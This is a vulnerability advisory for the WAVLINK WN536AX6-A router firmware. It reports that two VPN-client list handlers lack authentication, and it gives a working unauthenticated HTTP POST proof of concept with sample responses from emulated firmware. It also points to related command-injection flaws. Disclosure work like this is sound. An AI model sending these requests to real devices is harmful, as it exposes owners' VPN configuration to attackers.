

# WAVLINK WN536AX6-A — Unauthenticated Information Disclosure in `openvpn_cli_list` / `wireguard_cli_list`

| Item | Value |
|---|---|
| Vendor | WAVLINK (`winstar` / Meshlink) |
| Product / Model | WAVLINK WN536AX6-A (AX6000), Model `WN536AX6` |
| Firmware | `M36AX6_V260507_2.0.0-WO-d173724` |
| Vulnerable component | `/bin/ioos` — handlers `sub_416d48` (`openvpn_cli_list`) and `sub_41a7c0` (`wireguard_cli_list`) |
| Vulnerability type | Information Disclosure (CWE-200) / Missing Authentication (CWE-306) |

## Overview

Most `ioos` handlers begin with the login check `ldr wN,[con,#0x64]; cmp #1; b.eq <ok>` (returning `error: 10007` when not authenticated). The two VPN-client **list** handlers do **not** perform this check:

- `fname=sys` & `opt=openvpn_cli_list` (`sub_416d48`) — only runs the constant `system("touch /etc/config/ovpnclient")`, then loads the UCI config and returns the configured OpenVPN clients as JSON.
- 
- `fname=sys` & `opt=wireguard_cli_list` (`sub_41a7c0`) — same pattern for WireGuard (`touch /etc/config/wgclient` + UCI load + JSON).
- 

Both reply with `error: 0` and the VPN client configuration to **any unauthenticated caller** through the lighttpd front door.

## Proof of Concept

No credentials, no token, no `IP-FROM` — pure remote, unauthenticated:

```http
POST /index.csp?token=NOT_LOGGED_IN HTTP/1.1
Host: 192.168.1.6
Content-Type: application/x-www-form-urlencoded
Content-Length: <auto>

fname=sys&opt=openvpn_cli_list&function=get
```
```json
{ "opt": "openvpn_cli_list", "fname": "sys", "function": "get", "clients": [ ], "error": 0 }
```
```http
fname=sys&opt=wireguard_cli_list&function=get
```
```json
{ "opt": "wireguard_cli_list", "fname": "sys", "function": "get", "clients": [ ], "error": 0 }
```

In contrast, properly-gated endpoints on the same firmware return `error: 10007` under identical conditions (e.g. `opt=vpn_client`, `opt=zerotier_list`, `opt=wan_info`), confirming the two list handlers are specifically missing the auth check.

## Impact

An unauthenticated, network-adjacent attacker can enumerate the router's VPN client configuration (OpenVPN / WireGuard peer/server addresses, group/file identifiers and config paths) — useful for reconnaissance ahead of the command-injection exploits (`openvpn_cli_group` / `wireguard_cli_group`) or for directly targeting the VPN infrastructure disclosed.

## Reproduction Result

Dynamically verified against the firmware emulated with `qemu-aarch64-static` + `chroot`: both list endpoints returned `error: 0` with the `clients` structure to an unauthenticated front-door request, while sibling endpoints correctly returned `error: 10007`. The `clients` arrays were empty only because the emulated device had no real VPN client configured; on a device in use they are populated with the live VPN peer/server data.
